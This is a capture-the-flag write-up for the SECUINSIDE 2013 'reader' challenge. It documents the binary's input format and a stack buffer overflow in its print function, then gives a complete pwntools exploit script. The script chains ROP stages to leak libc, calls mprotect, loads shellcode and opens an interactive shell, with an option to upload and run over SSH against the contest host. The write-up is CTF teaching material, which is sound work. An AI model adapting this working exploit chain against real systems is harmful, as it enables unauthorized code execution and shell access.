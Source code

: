 ```yaml
---
title: reader - SECUINSIDE 2013
author: IdolfHatler
layout: post
published: true
date: 2013-06-01 18:03:07
---
```


Challenge description:
><pre>http://war.secuinside.com/files/reader
> <b></b>
> ip : 59.9.131.155
> port : 8282 (SSH)
> account : guest / guest
> <b></b>
> We have obtained a program designed for giving orders to criminals.
> <b></b>
> Our investigators haven't yet analyzed the file format this program reads.
> <b></b>
> Please help us analyze the file format this program uses, find a vulnerability, and take a shell.

We were not able to participate seriously in SECUINSIDE, as it collided with events at our university.

One of the few problems we managed to solve was reader, though we only managed to solve it locally, since we used [pwntools](https://github.com/pwnies/pwntools) and did not have time to/care enough to port it to plain python.

As to avoid running into this problem in another CTF, we have implemented an ssh backend in pwntools using paramiko and improved our rop module. But enoug meta, onto the challenge!

The program itself was fairly simple: Parse a weird format, print it out in a weird format and remember to have overflows everywhere. The format it parsed was:

```c
struct {
    char header1[12];       // Must be "\xffSECUINSIDE\x00"
    char section1[50];      // Must have a null-byte in the first 12 bytes
    char section2[50];
    char header2[4];        // Must be "\xff\xff\xff\xff"
    int len1;               // 5 <= len1 <= 50
    int len2;               // len2 <= 100
    int len3;               // len3 <= 800
    int timeout;            // how much do you want to usleep?
    char fill_char;         // Must not be '\x00'
    char buf1[len1];
    char buf2[len2];
    char buf3[len3];
}
```

This was then read into this structure:

```c
struct {
    int len1;
    int len2;
    int len3;
    int timeout;
    char fill_char;     // Non-packed -- meaning 3 padding bytes afterwards
    char *buf1;         // malloc'ed
    char *buf2;         // malloc'ed
    char *buf3;         // malloc'ed
    char section1[51];  // Always null-terminated
    char section2[51];  // Always null-terminated
}
```


The only overflowable function without a stack cookie was the print function at 0x08048d41. This could be overflowed by because buf2 is set to a stack variable at 0x08048f1e and then memcpy'ed to at 0x08048d1d.

However this only gave us a 14 byte overflow from eip and upwards. This might not seem like much, however it is more than enough for a ret2libc attack, if ASLR is disabled.

As everbody knows, ASLR can be disabled locally by doing <b>ulimit -s unlimited</b>. However assume that your lack of sleep have made you forget this important fact, then what would you do? One solution would be to:

0. Jump slightly back in main to 0x08049157
1. Run the parsing of the file again to a known address (for example .bss + 0x100)
2. Run the same overflow again, thus gaining a slightly larger rop
3. Migrate your rop to the known address
4. Load more rop (for example at .bss + 0x200) and migrate to it
5. Print the address of printf to stdout
6. Generate more rop calculated from the printf address
7. Load it in (for example at .bss + 0x300) and migrate to it
8. Call mprotect and read shellcode (for example to .bss + 0x400)
9. Jump to shellcode and win

All of this can be done using only 99 lines with pwntools:

```python
#!/usr/bin/env python
from pwn import *
import sys
context('i386', 'linux')
splash()

# Magic variables
fd = 3
memcpy = 0x080487f3
stdout = 0x0804b080
do_it_again = 0x08049157

# Configuration
shellcode = shellcode.setresuidsh()
LOCAL = True
HOST = 'guest:guest@59.9.131.155:8282'

# Initialize rop
r = ROP('reader')

# read rop2 to the address .bss+0x200 and migrate to it
r.call('read', (fd, r.sections['.bss'] + 0x200, 0x100))
r.migrate(r.sections['.bss'] + 0x200)
rop1 = r.flush()

# puts the address of printf
r.call('puts', 'MAGIC')
r.call('puts', r.got['printf'])

# fflush stdout. 0x41414141 will be replaced by the memcpy
r.call(memcpy, (r.sections['.bss'] + 0x200 + 4*(3+3+5+2), stdout, 4))
r.call('fflush', 0x41414141)

# read rop3 to the address .bss+0x300 and migrate to it
r.call('read', (0, r.sections['.bss'] + 0x300, 0x100))
r.migrate(r.sections['.bss'] + 0x300)
rop2 = r.flush()

# File 1
section1  = '\x00' + 'A'*49
buf1 = 'A'*8
buf2 = flat('\0'*36, do_it_again, 0x41414141, r.sections['.bss'] + 0x100).ljust(100)
buf3 = 'A'*8
file1 = flat(
    '\xffSECUINSIDE\x00',               # first header
    section1, 'A' * 50,                 # two 50-byte sections
    -1,                                 # second header
    len(buf1), len(buf2), len(buf3),    # the lengths to read
    0, 'A',                             # usleep time, fill character
    buf1, buf2, buf3)

# File 2
section1  = ('\x00' + rop1).ljust(50)
buf1 = 'A'*8
buf2 = flat('\0'*32, r.sections['.bss'] + 0x100 + 0x21 - 4, r._gadgets['leave'][0]).ljust(100)
buf3 = 'A'*8
file2 = flat(
    '\xffSECUINSIDE\x00',               # first header
    section1, 'A' * 50,                 # two 50-byte sections
    -1,                                 # second header
    len(buf1), len(buf2), len(buf3),    # the lengths to read
    0, 'A',                             # usleep time, fill character
    buf1, buf2, buf3)

sploit = file1 + file2 + rop2

# And now for the actual exploitation
if LOCAL:
    write('sploit.sec', sploit)
    sock = process('./reader sploit.sec')
else:
    ssh = ssh(HOST)
    ssh.upload('sploit.sec', raw = sploit)
    ssh.libs('reader', rop = r)
    sock = ssh.run('./reader sploit.sec')

# Wait for rop2 to run
sock.recvuntil('MAGIC\n')

# Read the address of printf and update the rop object
printf = u32(sock.recvn(4))
r.load_library('libc', printf, 'printf')

# We can now use any function in libc (that does not use too much stack)
# However we like shellcode, so only mprotect, read and write is needed
r.call('mprotect', ((r.sections['.bss'] + 0x400)        & ~4095, 4096, 7))
r.call('mprotect', ((r.sections['.bss'] + 0x400 + 4096) & ~4095, 4096, 7))
r.call('write', (1, 'MAGIC\n', 6))
r.call('read', (0, r.sections['.bss'] + 0x400, len(shellcode)))
r.call(r.sections['.bss'] + 0x400)
rop3 = r.flush()
sock.send(rop3)

# Wait for rop3 to run, then send the shellcode
sock.recvuntil('MAGIC\n')
sock.send(shellcode)

# And now a shell
sock.interactive()
```

As seen, this uses both our recently implemented ssh features and the fact that rop now supports arbitrary structures. The rop-call to 'write' is a simple example, however deeply nested structures are supported too.
